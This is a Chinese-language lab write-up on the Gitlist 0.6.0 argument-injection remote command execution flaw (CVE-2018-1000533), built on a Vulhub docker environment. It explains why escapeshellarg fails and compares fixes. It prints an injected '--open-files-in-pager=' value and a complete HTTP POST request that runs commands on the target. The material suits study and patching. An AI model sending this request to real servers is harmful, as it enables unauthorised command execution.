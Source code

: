 # Gitlist 0.6.0 远程命令执行漏洞 CVE-2018-1000533

## 漏洞描述

gitlist是一款使用PHP开发的图形化git仓库查看工具。在其0.6.0版本及以前，存在一处命令参数注入问题，可以导致远程命令执行漏洞。

## 环境搭建

Vulhub执行如下命令启动漏洞环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到一个名为`example`的仓库。

## 漏洞复现

参考链接：[Vulhub](https://github.com/vulhub/vulhub/tree/master/gitlist/CVE-2018-1000533)

在用户对仓库中代码进行搜索的时候，gitlist将调用`git grep`命令：

```
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }

    $query = escapeshellarg($query);

    try {
        $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

其中，`$query`是搜索的关键字，`$branch`是搜索的分支。

如果用户输入的`$query`的值是`--open-files-in-pager=id;`，将可以执行`id`命令：

![image-20220223214440698](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202232144734.png)

导致这个漏洞的原因，有几点：

1. 开发者对于`escapeshellarg`函数的误解，造成参数注入
2. `git grep`的参数`--open-files-in-pager`的值，将被直接执行

理论上，在经过`$query = escapeshellarg($query);`处理后，`$query`将变成一个由单引号包裹的字符串。但不出漏洞的前提是，这个字符串应该出现在“参数值”的位置，而不是出现在参数选项（option）中。

我们可以试一下如下命令：

```
git grep -i --line-number -e '--open-files-in-pager=id;' master
```

![image-20220223214451255](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202232144303.png)

如上图，我将`$query`放在了`-e`参数的值的位置，此时它就仅仅是一个字符串而已，并不会被当成参数`--open-files-in-pager`。

这应该作为本漏洞的最佳修复方法，也是git官方对pattern可能是用户输入的情况的一种解决方案（以下说明来自man-page）：

> -e The next parameter is the pattern. This option has to be used for patterns starting with - and should be used in scripts passing user input to grep. Multiple patterns are combined by or.

当然，gitlist的开发者用了另一种修复方案：

```
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }
    $query = preg_replace('/(--?[A-Za-z0-9\-]+)/', '', $query);
    $query = escapeshellarg($query);
    try {
        $results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

首先用`preg_replace`将`-`开头的非法字符移除，然后将`$query`放在`--`的后面。在命令行解析器中，`--`的意思是，此后的部分不会再包含参数选项（option）：

> A -- signals the end of options and disables further option processing. Any arguments after the -- are treated as filenames and arguments. An argument of - is equivalent to --.
>
> If arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands. If bash is invoked in this fashion, $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits. Bash's exit status is the exit status of the last command executed in the script. If no commands are executed, the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.

举个简单的例子，如果我们需要查看一个文件名是`--name`的文件，我们就不能用`cat --name`来读取，也不能用`cat '--name'`，而必须要用`cat -- --name`。从这个例子也能看出，单引号并不是区分一个字符串是“参数值”或“选项”的标准。

![image-20220223214500106](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202232145144.png)

所以官方这个修复方案也是可以接受的，只不过第一步的`preg_replace`有点影响正常搜索功能。

## 漏洞复现

发送如下数据包：

```
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Length: 56

query=--open-files-in-pager=touch /tmp/success;
```

其中，我们访问的是`/example/tree/a/search`，example是项目名称，需要是目标gitlist上一个已存在的项目；a在正常情况下应该是分支的名称，也就是`"grep -i --line-number {$query} $branch"`中的`$branch`，但因为我们的`$query`被当成了一个参数，所以`$branch`就应该被当做搜索的关键字。

![image-20220223213910149](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202232139250.png)

如果没有搜索结果的话，我们的命令是不会被执行的，所以我用了“a”这个关键字，只是为了保证能搜出结果，你也可以换成其他的试试。

数据包发送后，用`docker-compose exec web bash`进入容器中，可见`/tmp/success`已成功创建：

![image-20220223213813298](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202232138346.png)

